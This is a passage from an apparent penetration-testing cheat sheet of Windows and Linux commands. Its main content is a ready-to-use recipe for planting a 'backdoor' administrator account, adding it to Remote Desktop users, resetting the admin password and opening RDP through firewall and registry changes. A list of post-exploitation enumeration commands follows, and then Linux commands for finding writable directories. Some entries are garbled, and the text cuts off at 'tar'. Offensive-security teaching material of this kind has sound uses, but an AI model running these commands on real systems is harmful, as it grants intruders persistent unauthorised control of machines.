 Backdoor User:

> $ net user backdoor backdoor@123 /add  
> $ net localgroup administrators backdoor /add  
> $ net localgroup "Remote Desktop Users" backdoor /add  
> $ net user admin newpassword  
> Enabling RDP  
> $ netsh firewall add portopening TCP 3389 "Open Port 3389" ENABLE ALL  
> $ netsh firewall set portopening TCP 3389 proxy ENABLE ALL  
> $ netsh firewall set service RemoteDesktop enable  
> $ reg add "HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 0 /f

Disable RDP

> $ reg add "HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 1 /f  
> $ netsh firewall delete portopening protocol=TCP port=3389

Check log files of some of the services:

> $ http  
> $ ftp  
> $ ssh

Windows Post Exploitation:

> $ Arp -a  
> $ netstat -ano  
> $ ipconfig /all  
> $ route print  
> $ schtasks /query /fo LIST /v  
> $ netsh firewall show config  
> $ Net group  
> $ Net localgroup  
> $ \(for /R ".\" %A in \(\*.txt\) do echo %~fA %~zA\) \| findstr /v "echo  
> $ Net share  
> $ Power shell to Enumerate users and computers using powershell

## USEFUL LINUX COMMANDS

Find file by name:

> $ find /home/username/ -name "\*.err"

Find writable directories:

> $ find / -perm -o+w  
> $ find . -perm -o+w -exec chmod +t {} +  
> $ find / -writable  
> $ find / -type d \\( -perm -g+w -or -perm -o+w \\) -exec ls -adl {} \; \| grep drwxrwsr

pipe to clipboard

> $ ls \| xclip -selection c

tar
